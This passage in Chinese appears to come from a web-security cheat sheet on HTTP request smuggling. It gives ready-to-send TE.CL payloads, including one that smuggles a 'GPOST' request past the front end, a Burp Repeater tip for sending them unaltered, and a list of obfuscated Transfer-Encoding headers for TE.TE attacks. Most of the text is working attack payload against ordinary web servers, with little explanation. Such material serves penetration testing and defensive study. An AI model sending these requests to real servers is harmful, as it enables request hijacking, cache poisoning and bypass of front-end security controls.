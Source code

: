 ### TE.CL 漏洞

> 前端服务器使用 Transfer-Encoding 头部，而后端服务器使用 Content-Length 头部。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: 要使用 Burp Repeater 发送此请求，首先需要转到 Repeater 菜单并确保取消选中"Update Content-Length"选项。您需要在最后的 0 后包含尾随序列 `\r\n\r\n`。

### TE.TE 漏洞

> 前端和后端服务器都支持 Transfer-Encoding 头部，但可以通过某种方式混淆头部来诱导其中一个服务器不处理它。

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```
